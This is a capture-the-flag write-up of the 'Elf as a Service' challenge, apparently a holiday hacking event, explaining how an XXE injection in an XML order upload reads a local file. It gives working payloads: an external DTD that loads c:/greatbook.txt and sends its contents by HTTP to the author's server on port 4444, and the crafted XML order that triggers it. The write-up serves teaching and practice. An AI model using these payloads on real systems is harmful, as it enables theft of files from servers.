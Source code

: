 ![Abominable snowman](/images/2018/01/abominable_snowman.png)

# Elf as a Service
I was really happy to see this challenge, since it required one of my favorite vulnerabilities to exploit: XML eXternal Entity (XXE) Injection. Since I first exploited one of these vulns years ago, I've seen this so much in the wild and it's always so satisfying to pop.

The challenge was to read a local file at "C:\greatbook.txt" and it started at the new Elf as a Service (EaaS) platform at: http://eaas.northpolechristmastown.com/

The platform accepts orders as XML files that are uploaded to the server. A template of the order file is available from the main page here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

Order's can be uploaded on http://eaas.northpolechristmastown.com/Home/DisplayXML

First, I downloaded the sample XML file, prettified it and uploaded it as new order to see the request in Burp:

![Upload orig order](/images/2018/01/eaas_orig_upload.png)

It's uploading a complete XML document, which is a great sign that including a DOCTYPE might be possible and therefore maybe XXE Injection.

I went with a standard entity expansion attack. There's some great resources on this attack on the [SANS Blog](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities/) and there's an awesome list of test payloads on [GitHub here](https://gist.github.com/staaldraad/01415b990939494879b4)

I defined a DOCTYPE for the document "Elf" with an external entity called "sp" pointing to http://do.ropnop.com/ev.xml

The contents of ev.xml defined a few more entities: "data" which was file entity pointing to "c:/greatbook.txt", and "param1", which created an entity "exfil" which nexted "data" in a URL request back to my VPS on port 4444:
```xml
<!ENTITY % data SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://do.ropnop.com:4444/?%data;'>">
```
*Cue Inception theme song*

In my XML order, I called expanded all the entities which resulted in a GET request back to my VPS containing the contents of greatbook.txt. The final order looked like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Elf [
<!ELEMENT ElfName ANY>
<!ENTITY % sp SYSTEM "http://do.ropnop.com/ev.xml">
%sp;
%param1;
]>
<Elf>
    <Elf>
        <ElfID>1</ElfID>
        <ElfName>&exfil;</ElfName>
        <Contact>8675309</Contact>
        <DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase>
        <Picture>1.png</Picture>
        <Address>On a Shelf, Obviously</Address>
    </Elf>
...more data...
```
